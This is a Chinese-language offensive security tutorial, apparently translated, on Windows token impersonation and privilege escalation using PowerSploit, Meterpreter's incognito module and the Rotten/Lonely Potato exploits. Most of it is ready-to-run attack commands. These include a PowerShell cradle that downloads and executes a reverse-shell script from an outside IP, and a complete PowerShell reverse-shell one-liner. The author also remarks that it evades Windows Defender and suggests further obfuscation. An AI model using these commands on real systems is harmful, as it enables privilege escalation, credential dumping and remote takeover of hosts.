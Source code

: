 # 令牌伪造
令牌伪造这种技术可以用本地管理员的权限模拟登陆到其他计算机上，比如登陆到域管的机器上。

## powershell
使用powershell的模块可以达到令牌伪造的目的，生成一个新进程作为你模拟的用户，但是可以在同一个线程内工作，所以，你输入`whoami`可能回显出的是原始用户名，但你仍然拥有目标用户的权限。
这个时候你迁移新的进程到这个进程，就拥有了目标用户的shell。
这个模块在powersploit中：

```
https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1
```
作为域用户调用令牌伪造。没作用的话，可以尝试模拟SYSTEM，然后使用mimikatz dump凭据。



```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"

Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"

Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"
```
或者：

```
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```
## 利用邪恶土豆
邪恶土豆是一种特权升级技术，允许通过令牌伪造从服务级别帐户升级到SYSTEM权限账户。可以通过在Empire或Metasploit中上传一个exe文件漏并执行或通过内存注入psinject来实现。有关更多详细信息，请参阅Foxglove security对漏洞的介绍---->https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/。

### Meterpreter
获取一个普通用户的`meterpreter shell`并将rot.exe上传到这个机器。


```
getuid：显示用户身份

whoami getprivs ：显示有效的token

getsystem：如果是本地管理员，则允许直接在meterpreter中进行SYSTEM令牌伪造

use incognito： 列出可用的扩展

list_tokens -u ：列出可用的token
```

也可以将它作为dll上传到磁盘中并使用rundll32来执行它。

```
execute -H -c -m -d calc.exe -f /root/rot.exe upload rot.dll "c:\temp\rot.dll"
execute -H -c -f "rundll32 c:\temp\rot.dll
```
再次执行一下`list_tokens -u`试试
然后就是冒充system了。

```
impersonate_token "NT AUTHORITY\SYSTEM"
```

ok，get system！

## Lonely potato
(译者注：这老毛子起的名字怎么这么奇葩的，孤独的土豆，上面个叫烂土豆)
https://decoder.cloud/2017/12/23/the-lonely-potato/
https://github.com/decoder-it/lonelypotato

我在Windows 10上使用Defender做了测试，没有触发报警。你也可以实现一个更好的混淆然后反弹shell。
创建一个反弹shell的powershell文件

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.9',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

执行后，查看权限：

```
whoami /priv
```

如果只有SeImpersonatePrivilege，使用这个参数：CreateProcesAsUser, (t)
如果你有SeImpersonatePrivilege 和 SeAssignPrimaryToken，使用CreateProcessWithTokenW, (*) 参数。
先监听，执行文件：

```
c:\windows\temp\MSFRottenPotato.exe t c:\windows\temp\test.bat
```




